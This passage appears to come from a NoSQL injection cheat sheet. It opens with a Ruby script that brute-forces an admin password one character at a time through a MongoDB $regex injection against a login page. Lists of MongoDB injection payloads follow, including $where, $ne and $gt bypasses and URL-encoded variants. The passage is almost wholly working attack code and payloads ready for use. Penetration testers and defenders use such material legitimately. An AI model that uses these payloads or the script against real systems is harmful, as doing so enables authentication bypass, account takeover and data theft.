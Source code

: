 ```ruby
require 'httpx'

username = 'admin'
password = ''
url = 'http://example.org/login'
# CHARSET = (?!..?~).to_a # all ASCII printable characters
CHARSET = [*'0'..'9',*'a'..'z','-'] # alphanumeric + '-'
GET_EXCLUDE = ['*','+','.','?','|', '#', '&', '$']
session = HTTPX.plugin(:persistent)

while true
  CHARSET.each do |c|
    unless GET_EXCLUDE.include?(c)
      payload = "?username=#{username}&password[$regex]=^#{password + c}"
      res = session.get(url + payload)
      if res.body.to_s.match?('Yeah')
        puts "Found one more char : #{password + c}"
        password += c
      end
    end
  end
end
```

## MongoDB Payloads

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='
' && ''=='
";return(true);var xyz='a
0;return true
"$where":"Object.keys(this)[1].match('^.{}.*')"
"$where":"this.YOURTOKENNAME.match('^.{§§}§§.*')"
user=administrator' && this.password[0]=='a
```
```
test||1==1
test%7C%7C1%3D%3D1

test||1==1//
test%7C%7C1%3D%3D1%2F%2F

test||1==1%00
test%7C%7C1%3D%3D1%2500

test||1==1\u0000
```